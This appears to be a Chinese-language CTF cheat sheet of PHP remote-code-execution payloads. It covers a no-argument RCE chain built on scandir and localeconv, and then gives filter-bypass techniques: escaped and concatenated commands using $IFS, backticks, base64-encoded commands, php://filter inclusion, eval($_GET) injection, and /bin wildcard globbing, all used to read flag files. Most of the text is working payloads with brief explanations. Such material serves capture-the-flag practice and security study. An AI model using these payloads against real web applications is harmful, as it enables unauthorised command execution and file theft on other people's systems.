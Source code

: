 # 无参数的RCE
```
highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```
需要用到的函数  
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)  
scandir()：获取目录下的文件，scandir(.)：获取当前目录下所有文件  
pos()：返回数组中的当前元素的值。  
array_reverse()：数组逆序  
next()： 函数将内部指针指向数组中的下一个元素，并输出。  
highlight_file()：函数进行文件内容的读取，并输出

# 各种绕过姿势
## 使用转义符号
```
ca\t /fl\ag
cat fl''ag
```
## 拼接法
```
a=fl;b=ag;cat$IFS$a$b
```
## 反引号绕过
```
cat `ls`//cat system("ls");
```
## base64编码绕过
```
`echo Y2F0Cg==|base64 -d` flag
//cat的base64编码为Y2F0Cg==
```
## 配合文件包含
```
include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```
## 配合传参
```
eval($_GET[1]);&1=system("ls%20/");
```
## 拷贝文件或者修改文件名
```
system("cp fla*.php 1.txt");
system("mv fla*.php 1.txt");
```
## 调用bin
```
/bin/?at${IFS}f???????
```
```
在Linux中，/bin是安装基本系统管理命令和二进制文件的文件夹。这些二进制文件是指执行文件，通常包含在系统启动过程中需要的工具和命令行工具。/bin目录中包含了大量的基本命令和工具，包括：
 
\1. bash - 标准的命令行Shell
\2. cat - 将文件内容输出到屏幕
\3. cp - 复制文件
\4. date - 显示或设置系统时间
\5. mv - 移动或重命名文件
```
